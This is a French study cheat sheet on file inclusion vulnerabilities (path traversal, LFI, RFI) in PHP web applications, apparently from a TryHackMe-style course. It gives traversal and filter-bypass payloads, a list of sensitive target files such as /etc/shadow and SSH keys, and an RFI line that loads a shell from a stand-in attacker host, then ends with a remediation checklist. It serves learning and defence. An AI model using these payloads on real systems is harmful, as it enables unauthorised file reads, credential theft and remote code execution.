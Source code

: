 ## Quoi / définition

- **File inclusion** : vulnérabilité où une appli web inclut/retourne des fichiers à partir d’un paramètre contrôlé par l’utilisateur (ex. `?file=...`).
- Trois formes principales :
    - **Path traversal / Directory traversal** (`../` — lire fichiers hors du webroot).
    - **LFI (Local File Inclusion)** — inclure des fichiers locaux (exécution possible si fichier PHP inclus).
    - **RFI (Remote File Inclusion)** — inclure des fichiers distants via URL (nécessite `allow_url_fopen` / `allow_url_include`).
---
## Pourquoi ça arrive
- Mauvaise **validation/sanitation** des entrées utilisateur.
- Utilisation directe d’appels type `include`, `require`, `file_get_contents`, etc. avec des paramètres non filtrés.
- Erreurs affichées côté serveur qui divulguent des chemins et le comportement de l’application.

---
## Risques principaux
- **Divulgation d’informations sensibles** ( `/etc/passwd`, clés SSH, fichiers de configuration).
- **Escalade vers RCE** si l’attaquant peut écrire un fichier ou inclure un script distant (RFI).
- **XSS, DoS**, et compromission complète du serveur web.

---
## Comportement typique & indices
- Paramètre visible : `http://site/get.php?file=userCV.pdf`
- Erreur révélatrice (exemple) :  
    `Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12` → montre `include(languages/...)` et le chemin complet.
- PHP souvent concatène une extension (`.php`) automatiquement → nécessite contournements.

---

## Exemples concrets (cheat-sheet)

### PHP vulnérable
```php
// vulnérable
include($_GET['lang']);
```
Inclusion simple : `?lang=/etc/passwd` (si autorisé).
### Insertion de répertoire forcé
```php
include("languages/". $_GET['lang']);
```
Payload LFI classique :  
`?lang=../../../../etc/passwd`
### Contournements / bypass courants

- **Dot-dot-slash** : `../../..` pour remonter l’arborescence.
- **Null byte** (historique) : `%00` pour tronquer la chaîne (ne fonctionne plus sur PHP ≥ 5.3.4).  
    Exemple : `../../../../etc/passwd%00`
- **Slash/point tricks** : ajouter `/.` ou `/..` après le fichier filtré : `/etc/passwd/.` ou `/etc/passwd/..`
- **Obfuscation pour filtres naïfs** : `....//....//etc/passwd` (remplace uniquement `../` simple)
- **Forcer inclusion de répertoire** : si l’appli exige `languages/EN.php`, faire `?lang=languages/../../../../../etc/passwd`
### RFI
- Si `allow_url_fopen`/`allow_url_include` activés :  
    `?lang=http://attacker.example/shell.txt` où `shell.txt` contient PHP malveillant.
---

## Fichiers utiles à tester (Linux / Windows)

- Linux : `/etc/passwd`, `/etc/shadow`, `/proc/version`, `/root/.bash_history`, `/var/log/apache2/access.log`, `/root/.ssh/id_rsa`
- Windows : `C:\boot.ini`, `C:\windows\win.ini`
---

## Détection / signes en pentest

- Messages d’erreur révélant chemins complets.
- Comportement différent selon l’ajout de `../` ou d’un nom de fichier non attendu.
- Serveur effectuant requêtes sortantes vers des hôtes contrôlés par l’attaquant (pour RFI).

---

## Contre-mesures / remediation (checklist)

1. **Ne jamais** inclure directement de données utilisateur.
2. **Whitelisting** : n’autoriser que des noms/fichiers connus (p.ex. table `['EN','FR']`) plutôt que blacklist.
3. **Validation stricte** : valider type, format et chemin canonique.
4. **Désactiver** `allow_url_fopen` et `allow_url_include` si non nécessaires.
5. **Désactiver l’affichage des erreurs** en prod (éviter fuite de chemins).
6. **Utiliser des chemins absolus contrôlés** (pas de concaténation côté client).
7. **Chroot / permissions minimales** : restreindre ce que le processus web peut lire/écrire.
8. **WAF** et règles de détection pour patterns `../`, URL externes incluses, etc.
9. **Logging & audits** : détecter tentatives de traversal / inclusions anormales.